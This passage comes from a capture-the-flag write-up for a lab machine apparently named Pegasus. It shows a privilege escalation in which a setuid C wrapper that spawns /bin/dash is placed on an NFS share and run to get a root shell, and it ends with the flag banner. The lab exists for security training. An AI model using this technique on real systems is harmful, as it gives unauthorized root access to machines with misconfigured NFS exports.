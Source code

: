 OK, so a quick side note here - my Kali box is 64 bit... if it were 32 bit I could just copy /bin/sh to /mnt/nfs and suid it. So, in this case, I have to use a C wrapper to execute a shell instead.

The code for the C wrapper is pretty straight forward

``` c
int main(void)
{
        system("/bin/dash");
}
```

This is then compiled as a 32 bit binary, dropped into /mnt/nfs on my Kali box, and chmodded to 4777

``` bash
root@kali:/mnt/nfs# gcc wrapper.c -m32
root@kali:/mnt/nfs# chmod 4777 a.out
```

Which, when executed as user john, drops me to a root shell

``` bash
john@pegasus:/opt/nfs$ ls -la
ls -la
total 32
drwxr-xr-x 2 root root 4096 Dec 20 00:17 .
drwxr-xr-x 5 root root 4096 Nov 18 20:51 ..
-rwsrwxrwx 1 root root 7160 Dec 20 00:17 a.out
john@pegasus:/opt/nfs$ ./moo2
./a.out
# id
uid=1000(john) gid=1001(mike) euid=0(root) groups=0(root),1001(mike)
```

Allowing the grail of grails... the ability to cat /root/flag

``` bash
# cat flag
               ,
               |`\
              /'_/_
            ,'_/\_/\_                       ,
          ,'_/\'_\_,/_                    ,'|
        ,'_/\_'_ \_ \_/                _,-'_/
      ,'_/'\_'_ \_ \'_,\           _,-'_,-/ \,      Pegasus is one of the best
    ,' /_\ _'_ \_ \'_,/       __,-'<_,' _,\_,/      known creatures in Greek
   ( (' )\/(_ \_ \'_,\   __--' _,-_/_,-',_/ _\      mythology. He is a winged
    \_`\> 6` 7  \'_,/ ,-' _,-,'\,_'_ \,_/'_,\       stallion usually depicted
     \/-  _/ 7 '/ _,' _/'\_  \,_'_ \_ \'_,/         as pure white in color.
      \_'/>   7'_/' _/' \_ '\,_'_ \_ \'_,\          Symbol of wisdom and fame.
        >/  _ ,V  ,<  \__ '\,_'_ \_ \'_,/
      /'_  ( )_)\/-,',__ '\,_'_,\_,\'_\             Fun fact: Pegasus was also
     ( ) \_ \|_  `\_    \_,/'\,_'_,/'               a video game system sold in
      \\_  \_\_)    `\_                             Poland, Serbia and Bosnia.
       \_)   >        `\_                           It was a hardware clone of
            /  `,      |`\_                         the Nintendo Famicom.
           /    \     / \ `\
          /   __/|   /  /  `\
         (`  (   (` (_  \   /
         /  ,/    |  /  /   \
        / ,/      | /   \   `\_
      _/_/        |/    /__/,_/
     /_(         /_( 

CONGRATULATIONS! You made it :)

Hope you enjoyed the challenge as much as I enjoyed creating it and I hope you
learnt a thing or two while doing it! :)
```